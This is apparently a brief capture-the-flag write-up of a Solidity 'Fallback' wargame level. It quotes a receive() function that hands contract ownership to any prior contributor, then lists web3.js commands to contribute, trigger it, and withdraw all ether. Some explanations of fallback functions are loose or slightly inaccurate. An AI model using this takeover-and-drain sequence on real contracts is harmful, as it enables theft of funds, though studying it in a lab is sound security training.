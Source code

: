 # Fallback Contract



First things first,

What is a fallback function?


-> In Solidity, a fallback function is an external function with neither a name, parameters, or return values.



Few notable properties of fallback function:

-> It is compulsory to mark it as external.

-> It should be marked as payable. If not, the contract will throw an exception if it receives ether without any data.

-> It is limited to 2300 gas if invoked by other functions.


The task:

1.Claim ownership of the contract.

2.Reduce its balance to 0.


//
Problem with contract:

-> Bad implementation of fall back functio i.e Changing contract ownership inside the fallback function.

*Observe the condition seen in fallback function*
 
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

//
How to get ownership and winthdraw all the money out of the contract

 
Solution:

1. Your account address has to contribute to be mapped. 

await contract.contribute({value:3})

2. Trigger fallback function by sending transcation by using web3.js command.

await contract.sendTransaction({value:3})

Congrats!! u now own the contract.

3.Lastly to withdraw all the eth from the contract

await contract.withdraw()

------done------
